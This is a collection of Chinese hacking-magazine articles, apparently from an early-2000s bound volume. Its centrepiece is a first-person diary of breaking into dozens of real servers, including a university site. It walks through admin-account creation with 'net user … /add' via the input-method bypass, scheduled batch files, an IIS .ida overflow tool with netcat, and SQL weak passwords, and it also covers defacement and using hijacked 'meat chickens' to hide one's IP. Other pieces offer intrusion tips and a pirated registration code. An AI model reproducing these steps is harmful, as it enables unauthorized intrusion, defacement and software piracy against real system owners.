

```ini
BootKeys=0
BootWarn=0
```

编辑 MSDOS.SYS 文件

BootKeys=0　作用：设定为 1 后开机时可以使用功能键（如 F4、F5、F6 和 F8），设定为 0 时则无法使用。

BootWarn=0　作用：设定为 1 后在启动失败后，下次启动提示进入安全模式；设定为 0 时则不提示。记住这项很重要，如果不加，只要对方在启动过程中按下重启，电脑会以为启动失败，再启动时就可以选出启动菜单。

添加完后保存，别忘了还原只读属性，最后用网吧管理软件将 C 盘隐藏，这样开机时就不能再选出启动菜单了！

# 超级工具——Visual Route

Visual Route（可视化路由）是一款极酷的可视化路由检查工具，它可以显示本机到任何一个 IP 地址中间所经过的地址。它能让你知道当无法连上某些 IP 时的问题所在。不过，它最令人欣赏的是它下方带的一张世界地图，地图可不是用来装饰的，它会实时地标示出你所查询的目标位置以及你自己的位置，主界面如图 1 所示。



我们现在开始简单地学习一下它吧！在左上角的“Address”栏中输入：www.yscx.cn.st（就拿我的网站当实验品吧，呵呵——呆呆虫说：做广告！），然后回车，Visual Route 就开始工作了。只需一会儿，结果便出来了，地图中显示出北京和香港的英文名及地理位置。如图 2：



Visual Route 除了有直观的地图为我们定位，同时在地图上方还会为我们把整个路由表都排列出来，如图 3 所示：



这里我来给朋友们解读一下这个路由表。我们看到表上方是对这台主机的简单分析结果：一共有 13 个 Hops（路程段），这是一台 HTTP 服务器，运行在 Apache（阿帕奇）服务器上，然后下面有详细的 Hops 清单。

Hop 的第一个经由的 IP 地址是 61.134.229.245，Node Name（结点名）是 SilverGiant（这是我的计算机名），Network（网络）是 CHINANET Shanxi（SX）province network（中国公用主干网山西省服务器），然后一直看到 Hop13，我们可以知道，从笔者本机到达查询的目标地址，需要经过 13 个 Hops，先通过山西的 DNS，连上太原的电信局，再连上 CHINANET 的主干线，一直到 New World 电信的服务器（已经是香港的了），最终到达 HKCIX（香港商业 Internet 提供者），也就是我的域名所在地。除了这些信息外，详细列表上还有到达对方服务器的返回时间、时区，以及简单的图线分析图等等信息。

这确实是一款有创意的软件，大家赶快试用吧！不过这款软件是要注册的，要不可能试用 30 天。不过没关系，我在这里送给大家一个注册码（配套光盘中有提供）。呵呵~~

# 假黑客

五一放了 6 天假，安心泡网。

利用这几天时间，我进入了数十台主机。有主页的就改一下，在源代码里加些代表我来过的文字；没主页的就随便玩玩，看看他的硬盘里有没有我感兴趣的东西，玩够了就下，不做什么破坏。不过，我郑重声明：我所入侵的主机，我没有删除任何文件，这里还包括日志文件；我修改的主页，在我截图以后都改了回来，我也没有在任何场合对任何人公布这些主机的 IP 及 ID。这是我起码的原则。

## 一、渗透要点

找到目标后首先是对它进行扫描，顺序是弱口令、漏洞、共享、端口，如果这些都没有什么可乘之机，我也就放弃了。一方面，我没做破坏网站的嗜好；另一方面，我也不会用 D.O.S. 这种极端的方法攻击无辜的国内站点。

## 二、渗透工具

- X-scan v1.3：到目前为止我所见的最好的扫描器。以前我用流光，不太顺手，但速度很快。自从我用了 X-scan，我就开始喜欢它了。虽然速度有点慢，但扫描很细致，在扫描报告中常常会有意外的惊喜。
- Terminal Services Client：远程连接的工具，是进肉鸡用的。肉鸡很重要，所以，它也很重要。在网上可以通过搜索 winctrl.zip 可找到它。
- Snake IIS 溢出工具（v2.0 Build 00013）：利用 NULL.ida 和 NULL.idq 漏洞的工具，具有图形界面，操作简单。
- nc.exe：DOS 下连接远程主机的工具，和 telnet 类似。
- SQL Exec for NetHacker III Version 1.0.0.0：连接数据库的工具。
- Bsd.exe：对付 bind 漏洞的溢出工具，网上下载名是 bsdhacking.zip，文件夹里还包括一个 cygwin1.dll 的文件。

### 三、网络 6 天

下文中，英文字母均表示根据实际情况而应该变动的内容。

第一天，一切都刚刚开始，要做热身的。所以找了一个很菜的漏洞练练——FrontPage 扩展漏洞。我认为这个漏洞只是自动给浏览器送的礼物，能改主页，甚至偷些东西，做不了什么。除非能上传一个 cmd.asp，但我至今也没找到一个好的 cmd.asp，现有的或多或少地有些毛病。步骤也很简单，找到有这种漏洞的 IP，打开 FrontPage，在打开站点里键入：http://IP。等上几秒钟，那个站点的树形图就出来了，找到主页……下面怎么操作我不说大家也知道了。

第二天，扫描了一台主机。扫描结果里没有弱口令，没有漏洞，139 端口关闭。没有什么有用的信息，没有什么可利用的，不会白扫了吧？等等，3389 开着呢！上去看看，没准就有……果然被我猜中了，输入法漏洞。我觉得这是一个菜鸟首先要掌握的漏洞之一。首先把光标放到用户名栏里，Ctrl+Shift 调出全拼输入法，点击鼠标右键，帮助手册。在空白处点右键，选择“跳至 URL”，再输入 X:\winnt\system32，回车，进入 system32 文件夹。找到 net.exe 文件，点击右键，选择“创建快捷方式”。再找到快捷方式，点击右键，选择“属性”。在目标栏里输入：X:\winnt\system32\net.exe user yourname password /add，确定。双击运行。再打开“属性”，在目标栏里输入：X:\winnt\system32\net.exe localgroup administrators yourname /add，确定，双击运行。管理员的身份已经建好了，关闭窗口，用刚建好的用户名和密码进入。我又可以为所欲为了。不过我不会破坏什么，因为这台主机已经成为了我的一只很好的肉鸡了。

第三天，扫描结果大概是这样的：有一个身份是 user 的 NT-server 弱口令，共享文件夹：c$、d$、e$、ipc$、admin$，其它的就没什么好利用的了。

打开 cmd，键入：net use \\IP\ipc$ "password" /user:"username"，成功。

再看看这个用户名的权限是不是够大：net use \\IP\C$ "password" /user:"username"，拒绝访问，C 盘不行了。

copy c:\hack\go.bat \\IP\admin$，拷贝 go.bat 文件到 admin 文件夹里去，这是一个批处理文件，有两条命令：net user username password /add 和 net localgroup administrators username /add，目的就是加个管理员。

net time \\IP，看看对方主机的时间，再根据时间再加两分钟，at \\IP TIME go.bat。过了一会儿，在开始菜单的“运行”中键入 \\IP\C$，确定。弹出一个窗口，要求身份验证，输入刚刚建的用户名和密码。OK，对方主机的 C 盘便呈现在我眼前。看看主页的默认路径，inetpub\wwwroot\default.htm。没错，就是它，以文本方式打开，怎么修改可就随你了。

第四天，自从上大学以来，我就一直把我们学校的学生网站当成了我的目标。以前觉得它很神圣，高不可攀。但经过扫描，我看到它还是存在着很多漏洞，主要的就是“IIS Index Server ISAPI 扩展远程溢出”漏洞（/NULL.ida）。这个漏洞不是很难，所以，我决定今天对它进行攻击。

要利用 NULL.ida 和 NULL.idq 漏洞入侵，要用到一些工具。网上对付这个漏洞的工具很多，我选择 Snake IIS 溢出工具（v2.0 Build 00013）。我喜欢图形界面的东西，这就是一个图形界面的溢出工具，操作近似傻瓜式，很简单。它的原理就是向目标主机发送数据包，使主机远程溢出，并打开一个监听端口，软件默认的是 813 端口，它还捆绑了一个 DOS 命令让远程主机执行。另一个工具是 nc.exe，这是一个在 DOS 下连接远程主机的东西，类似于 telnet，好像比 telnet 好用（我也是听说，没真正比较过）。打开 Snake IIS 填入 IP 段，选择主机系统类型为 IIS5 中文 Win2k Sp0，点 IDQ 溢出。如果返回成功的信息，就证明远程溢出的数据包发送成功。

到 cmd 下，进入 nc.exe 所在的目录下，键入：nc -vv IP 813，返回值表示不成功。再换一个系统类型 IIS5 中文 Win2k Sp1。看看结果，这次行了。默认的 DOS 命令是 dir c:，那台主机的 C 盘一览无遗。我没时间看这些东西，拿到管理员身份才是真的。在 Snake IIS 里的“要捆绑的命令”中输入：cmd.exe /c net user username password /add，溢出。在 cmd 里看看返回值，nc -vv IP 813，命令成功完成。

下一步把要捆绑的命令改成：cmd.exe /c net localgroup administrators username /add，溢出。看看 cmd 的返回值，命令成功完成。现在我已经拥有了这台主机的管理员身份，可以通过共享文件夹上去看看了。我是比较喜欢图形界面的，net use 也可以，但动动鼠标就行的事儿，干嘛要打键盘呢？DOS 命令我又不熟。天哪！这台主机竟然共享了 wwwroot 文件夹，难道网管知道我要来，又怕累着我？真是体贴，送上门的，不改主页都对不起那个体贴的网管，找到 index.asp……。

在下午，我又利用相同的方法得到了另一台主机的管理员身份，但这台主机里的文件实在多得要死，而且乱七八糟，主页也不在默认的路径下，找起来很麻烦。于是，我打开我的“网络邻居”，选择添加网络邻居，输入网络邻居的位置 \\IP\C$，建立了映射。这就意味着我可以使用 Windows 里我最爱的一项功能——“搜索”（这可是懒人的福音），很快主页就找到了。没说的，还它。

## 黑客X档案 2002-2003年合订本

# 侵心黑客

和前几天一样，以文本方式打开，修改源代码。

第五天，又扫了一台主机，有用的信息有：端口1433开放、Microsoft SQL Server。一个SQL Server弱口令和一个NT Server弱口令。那个NT Server的口令是属于user组的，没什么用，连上传文件都不行。看看SQL Server的那个吧。这时就用上了数据库连接工具 SQL Exec for NetHacker III Version 1.0.0.0，打开sqlExec，又是我喜欢的图形界面，操作同样是很简单的，填上IP，输入用户名和密码，点Connect。同样这个软件也是捆绑命令的，默认是 dir c:\。很熟悉的过程，连接上以后目标主机的C盘就列出来了。

和昨天一样，在DOS Command里输入：net user yourname password /add，咔，Connect，成功。

下一步：net localgroup administrators yourname /add，成功。

我又一次拥有了管理员身份，正当我想娱乐一番的时候，新的问题出现了。这台主机没有共享硬盘，只是共享了ipc$和admin$。怎么办呢？这两个共享文件夹对我来讲没有什么用的。沉思片刻，我突然想到我还可以执行DOS命令的，回到sqlExec，在DOS Command里键入：net share C$=C:，共享了C盘，名字是C$，不过隐藏。再来：net share D$=D:。这下行了，通过开始菜单里的运行输入\\IP\C$或\\IP\D$，在身份验证里输入我刚刚建的用户名和密码，就可以查看对方主机的C盘和D盘上的所有文件，修改主页也易如反掌。

第六天，我想练练bind的漏洞，但没有成功。我在朋友那里打听到一些关于bind漏洞的信息，但我对Linux或是BSD都不太感兴趣，所以也就没再深入研究。只是知道，这个溢出是要发送一个16M的数据包，所以要到网吧上做。用到的工具是：bsd.exe，一个DOS下的溢出工具。

## 四、总结经验

- 1. 这些都是我在入侵过程中无数失败和成功之中的几个比较典型的例子。而且也把它们说得有点理想化了，现实当中是很曲折的，不要相信真正的入侵会像我写的那么简单。也许你扫一万台主机，都扫不出一台有输入法漏洞的。这种漏洞都快绝种了，但我们却不能不会。

- 2. 要修改主页，查找主页其实是很麻烦的。想知道主页的文件名，可以在IE的地址栏的IP后面写上默认的文件名。一般是index.htm、index.html、index.asp、default.htm、default.html、default.asp。找到后，再搜索。但这也会出现麻烦，我有一次搜索一台主机上的default.asp，竟然在整个硬盘中找到了三十多个default.asp。其实还有一个办法，那就是找主页的下一级网页的文件名，这些名字一般都是唯一的。而且，主页一般都会在同一个文件夹下，或是在它的上一级文件夹中。这是我的一点点小经验。

- 3. 要学会很好地利用肉鸡。一方面，它可以隐藏你的IP，让你高枕无忧；另一方面，肉鸡的速度是很吸引人的，100M网卡、P4、1G的内存，而我的PII 400、256M，和它上网相比真是天壤之别。

- 4. 尽快学好基础知识。这几天以来，我越来越觉得基础知识的重要。网络基础，网络协议，DOS命令，甚至修改源代码所要的HTML编程知识都是不可或缺的。这些东西都要牢牢地记在脑子里，需要时再找根本来不及。

另外，我希望菜鸟朋友们看了我这篇文章可以增长点技术。那些不称职的网管看了，也希望他们能引以为戒。毕竟我的入侵都是很菜的方法，之所以成功都是和管理员的不负责任分不开的。



# 一些我们应该了解的黑客基础知识

坏小子

本文将以全新的方式来讲解黑客基础知识，例如在描述入侵步骤时，我会重新讲述其中所涉及的基础知识，这样让初学者可以比较容易对号入座，能把学到的知识系统地连贯在一起。

这样做是我的一种尝试，我也很高兴《黑客X档案》能给我这样一个平台。另外，这类文章是第一次推出，不知是否符合大家的口味，如果大家喜欢的话，这类文章会继续不断地推出，所以大家别忘了在回执卡里投上一票啊！

## 1、锁定目标

我新发现了黑客和骇客的一个区别，黑客往往是有目的地去渗透既定目标，而骇客们往往是拿起工具就对一个网段无目标地狂扫，扫到漏洞就开始使用工具开始攻击。当然，这些是题外话，这里主要讲解在搜索目标的过程中，大家用得最多的一个命令——Ping。它是如何工作的？

我想大家都知道，要想获得一个网站IP地址的方法，只要简单地ping www.xxx.com就可以了，可其中的原理你知道吗？

你在Ping的时候会向被Ping的主机发送一个ICMP（TCP/IP协议栈中的一个协议，想更多地了解你可以看本刊前几期的内容）请求报文（实际上就是一个数据包），主机收到后，会回应一个ICMP回应报文，回应报文中，在包头（就是这个数据包的头部）里会有发送该数据包的主机的源地址，也就是IP地址，所以从回应信息中我们可以得到主机的IP地址。怎么样？没想到一个简单的Ping命令也有这么多的知识吧！

这里顺便说一句，很多朋友问过我，为什么他在入侵的时候Ping对方总是会产生超时？这个问题涉及到了防火墙对ICMP包的过滤，由于过多的ICMP数据包会带来危害，所以大多数防火墙都屏蔽了ICMP包或是限定了其数量，因此你在Ping或是其他一些基于ICMP的入侵攻击的时候就会产生超时或无法连接主机的问题。所以在入侵的时候应关掉防火墙。

为什么？因为现在有些防火墙会完全屏蔽掉ICMP数据包，所以你在进行Ping检测的时候就无法收到ICMP的回应报文，这样就导致了超时；另外，现在大部分的防火墙都综合了杀毒的功能，当你进行入侵时如果不关防火墙，防火墙会把你的攻击工具认为是病毒。这样不但影响效率，更影响心情。

注意：当然，同样要注意，既然你的防火墙都可以进行这样的屏蔽，对方如果也有同样好的防火墙，虽然很多人在设置防火墙时都不会把安全性设置得很高，但会把一些数据包的来源都记录下来。所以，即使你攻击成功了，也会很容易地被对方记录在案。

## 2、看看他家的窗户开着的门

不但会有接收信息方的IP地址，还要有一个端口号。这样当QQ的数据包发送过来时，计算机会通过4000这个标识QQ的端口来找到QQ程序，并把数据包里的信息解读出来。

既然要找“门”，就要用到扫描器这个软件。这里再说一句，如果对方使用的是Win 2000操作系统，扫描后会发现报告中说对方开了哪些“服务”，而不是“应用”。这是在Win 2000中，系统把所有的“应用程序”都定义为“服务”，而其本质是一样的。

扫描的时候大家应该注意，现在大部分人使用的扫描器都只是基于TCP扫描（还有一种就是基于UDP的扫描），由于TCP是有面向连接层的协议，而扫描过程就是要与每个开放的端口建立连接，因此对方会很容易记录下你的IP地址，所以应特别小心！

## 3、挖掘漏洞

漏洞！这里是指出由于配置不当或是由于系统本身的问题而引起的。

配置不当可以解决，而系统本身呢？那就非常可怕了，就像微软一样，漏洞一出再出，补丁一补再补。现在漏洞中最为严重和普遍的就是缓冲区溢出了。这就又提到了前面说到的溢出。缓冲区就是在内存中开辟的一个存储临时数据或中间数据的区域，我们把它设为区域A，当有人发送一个超过缓冲区长度的代码时，那么超出部分的代码就要覆盖到与缓冲区相邻的区域，假设这个为区域B，这样会引起调用这段区域B的程序由于读取到的代码不正确而发生错误。如果发送代码的人另有用意的话，就会发送一段精心准备好的代码，这样溢出到区域B的代码就会具有一定的意义。那么当程序调用这段代码的时候就会按照代码制造者的意图来执行代码，可见溢出漏洞非常严重。现在大部分的攻击都是通过溢出漏洞来完成的，因为攻击简单，一旦成功很有可能得到的就是最高权限。因此溢出漏洞的攻击和入侵也是受到推荐的。

## 4、应得到更多的信息

很多人在完成以上三步后便会着手进行攻击，但是我不太赞成这样做。我建议在此基础上要为自己找更多条可能实现攻击的路。其实有更容易获得的三个信息，一般都很容易成功，而且比前面有用。

- 第一，NETBIOS这个后门。由于NETBIOS打开的139端口会泄露机器名和工作组名，这样可以推算出机器是一台服务器还是一个工作站，或许有可能是在大公司中一个部门的一个域控制器（简称DC），或域名服务器（服务器上的官印，域控制器可以说是最重要的服务器，如果大家对此有兴趣，可以看看Win2000自带的帮助，写得非常详细）。通过这些分析你可以更加了解在入侵成功后你应该做什么？是通过信任关系来夺取更高权限，还是其他……

- 第二，TELNET服务。大家不要小看，很多小菜们不喜欢通过TELNET来入侵，确实TELNET的入侵有一定的技巧性而且比较麻烦。但是由于一些服务器允许匿名访问，所以我们完全可以利用TELNET来查看对方所用的操作系统或是服务器的版本。这样有利于在其他方法的攻击失败的时候，转向利用TELNET攻击，这样也不失为一条不错的后路！

- 第三，FTP服务。和TELNET一样，我们通过匿名登录来查看对方的一些信息，甚至，有时候还可能遇到一些马虎的管理员把匿名者的权限设置过大，而导致入侵者轻易获取最高权限。

总之，这些都只是本人的一些简单思路，希望大家在看过之后能对自己的人侵有一些启发。入侵的过程不重要，最重要的是能举一反三，完成更加完美的入侵，这正是本文的目的。

# QQ隐身登录

夏阳　石敏

今天无意间在家试用了一下QQ的会员功能，结果发现了一个可以让大家在网吧上网冲浪时QQ隐身登录的方法！以后去网吧玩不会让QQ登录上线了。

首先打开QQ登录框选择“注册向导”，填好号码和密码，点击两下“下一步”，这时你看见登录框页面上有一个“会员功能”的选项。我把“使用HTTP协议登录（仅限会员使用）”前面打个小勾（图1）。

然后在弹出的使用HTTP协议确认界面中点击“选择”，这时再点击“下一步”后显示“已将您的好友列表读取到本地，点击完成启动QQ”。接下来却弹出一个“登录失败”的警告对话框，上书“您不是会员，不能使用HTTP代理功能”（图2）。

不要管它，点击“OK”，这时候再看右下角任务栏的小QQ是灰色的离线状态，双击弹出，在QQ主界面左下方打开“QQ2000”卡通菜单按钮，选择“系统参数”选项，在“会员功能”里，把“使用HTTP协议登录”前面的勾去掉（如图3），然后点击“确定”。

再单击我的QQ小企鹅选择“隐身”状态。

啊……怎么了？出现个错误提示符，点击确定啦，再次选择隐身登录看看！啊啊……搞定，我的QQ就神不知鬼不觉地隐身登录了。

没想到注册向导也可以隐身登录！真是不错。





